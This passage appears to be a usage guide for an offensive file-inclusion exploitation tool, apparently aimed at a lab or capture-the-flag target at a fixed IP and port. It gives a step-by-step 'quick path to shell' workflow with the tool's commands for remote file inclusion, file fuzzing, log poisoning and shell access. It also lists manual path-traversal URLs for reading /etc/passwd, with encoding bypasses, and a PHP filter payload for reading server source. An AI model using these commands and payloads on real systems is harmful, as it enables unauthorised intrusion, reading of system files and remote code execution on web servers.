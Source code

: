 
### Step 9: Test RFI (Remote File Inclusion)
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --test-rfi

# Tests:
# - Remote URL inclusion
# - External file loading
# - RCE via RFI
```

---

## 💪 RECOMMENDED WORKFLOW

### Quick Path to Shell:
```bash
# Step 1: Quick exploitation attempt
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --auto --shell

# If that works → You have interactive shell! ✅

# If not, go deeper:

# Step 2: Find readable files
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --fuzz-files

# Step 3: If logs found, try poisoning
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --test-log-poison

# Step 4: Try all advanced techniques
python3 ghostlfi.py -u http://94.237.57.211:45888/index.php -p view --auto --advanced --shell
```

---

## 🎯 MANUAL TESTING

### Read /etc/passwd:
```bash
# Try these URLs manually:
http://94.237.57.211:45888/index.php?view=/etc/passwd
http://94.237.57.211:45888/index.php?view=../../../../etc/passwd
http://94.237.57.211:45888/index.php?view=....//....//....//....//etc/passwd
http://94.237.57.211:45888/index.php?view=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

### PHP Filter (to read source):
```bash
http://94.237.57.211:45888/index.php?view=php://filter/convert.base64-encode/resource=index.php
```
